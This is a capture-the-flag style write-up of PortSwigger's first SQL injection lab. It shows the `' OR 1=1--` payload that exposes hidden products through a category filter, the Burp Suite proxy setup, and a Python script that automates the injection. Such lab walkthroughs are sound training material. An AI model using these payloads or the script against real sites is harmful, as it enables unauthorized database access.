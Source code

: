 ```yaml
---
layout:
  title:
    visible: true
  description:
    visible: false
  tableOfContents:
    visible: true
  outline:
    visible: true
  pagination:
    visible: true
---
```


# WHERE clause allowing retrieval of hidden data

![](https://jawad.ca/images/sqli-lab01/sqli-lab1-4.png)

Lab #1 by PortSwigger Web Security Academy: [https://portswigger.net/web-security/sql-injection/lab-retrieve-hidden-data](https://portswigger.net/web-security/sql-injection/lab-retrieve-hidden-data)

### Description

This lab contains a SQL injection vulnerability in the product category filter. When the user selects a category, the application carries out a SQL query like the following:

```sql
SELECT * FROM products WHERE category = 'Gifts' AND released = 1
```

To solve the lab, perform a SQL injection attack that causes the application to display details of all products in any category, both released and unreleased.

### Steps

Upon accessing the lab and filtering on the `Pets` category, I noticed a GET parameter named `category` in the URL.

To test the application’s behavior, I initially tried adding a single quote (`'`) by navigating to `https://0abe00670490492181da436400ec000b.web-security-academy.net/filter?category='`.

This resulted in an `Internal Server Error`, which confirms that the application is indeed vulnerable.

![](https://jawad.ca/images/sqli-lab01/sqli-lab1-1.png)

By adding a single quote (`'`) to the `category` parameter, the application executes the following query against the database:

```sql
SELECT * FROM products WHERE category = ''' AND released = 1
```

### Preparing a SQL injection Payload:

Let’s try replacing `'` with `'--`. The key thing here is that the double-dash sequence `--` is a comment indicator in SQL, and means that the rest of the query is interpreted as a comment. This effectively removes the remainder of the query, so it no longer includes `AND released = 1`.

**Expected Query:**

```sql
SELECT * FROM products WHERE category = ''-- AND released = 1
```

URL: `https://0abe00670490492181da436400ec000b.web-security-academy.net/filter?category='--`

As we can observe, the error disappeared, and the page returned no products. Perfect!

![](https://jawad.ca/images/sqli-lab01/sqli-lab1-2.png)

Next, let’s try `' OR 1=1`, which will return the result of the following query:

```sql
SELECT * FROM products WHERE category = '' OR 1=1 -- AND released = 1
```

The modified query will return all items where either the category is empty (`''`) or `1=1`. Since `1=1` is always true, the query will return all items.

This solves Lab #1! Congratulations.

![](https://jawad.ca/images/sqli-lab01/sqli-lab1-3.png)

However, we won’t stop here. Let’s go the extra mile and automate the SQLi payload. To begin, download Burp Suite Community Edition and ensure that the Proxy listener is enabled.

![](https://jawad.ca/images/sqli-lab01/sqli-lab1-6.png)

Download the FoxyProxy extension and add the Burp Suite proxy address and port.

![](https://jawad.ca/images/sqli-lab01/sqli-lab1-5.png)

![](https://jawad.ca/images/sqli-lab01/sqli-lab1-7.png)

Enable the Burp proxy and navigate to the interface where Burp is running (`127.0.0.1:8080`). Save the CA certificate when prompted.&#x20;

<figure><img src="https://jawad.ca/images/sqli-lab01/sqli-lab1-10.png" alt=""><figcaption></figcaption></figure>

To prevent Firefox SSL errors when using Burp, import the certificate we just downloaded by going to `about:preferences#privacy` in Firefox.

![](https://jawad.ca/images/sqli-lab01/sqli-lab1-11.png)

We are now ready to intercept our HTTP(s) traffic through Burp. As shown below, the intercept is on, and we can observe the GET `/filter?category=param` request.

![](https://jawad.ca/images/sqli-lab01/sqli-lab1-8.png)

To automate this SQL injection payload, we can use the below Python script:

```python
import requests  
import sys  
import urllib3  
urllib3.disable_warnings(urllib3.exceptions.InsecureRequestWarning)  
  
proxies = {'http': 'http://127.0.0.1:8080', 'https': 'http://127.0.0.1:8080'}  
  
if __name__ == "__main__":  
	try:  
		url = sys.argv[1].strip()  
		payload = sys.argv[2].strip()  
	except IndexError:  
		print('Usage: %s <url> <payload> ; e.g www.example.com "1=1"' % sys.argv[0])  
		sys.exit(-1)  
  
uri = '/filter?category='  
r = requests.get(url + uri + payload, verify=False, proxies=proxies)  
  
# Congratulations message will show up only after solving the lab manually.  
if "Congratulations" in r.text:  
	print("it worked.")  
else:  
	print("Didn't work.")
```

To test our script with the Lab’s temporary URL and the payload we initially tested (`' OR 1=1--`), you can use the following command:

{% code overflow="wrap" %}
```powershell
python3 sqli-lab01.py https://0a9d00e603476b2480e1766400eb00da.web-security-academy.net "' or 1=1--"
```
{% endcode %}

et voilà! [Little bobby tables](https://xkcd.com/327/) would be very happy :-)

![](https://jawad.ca/images/sqli-lab01/exploits\_of\_a\_mom.png)
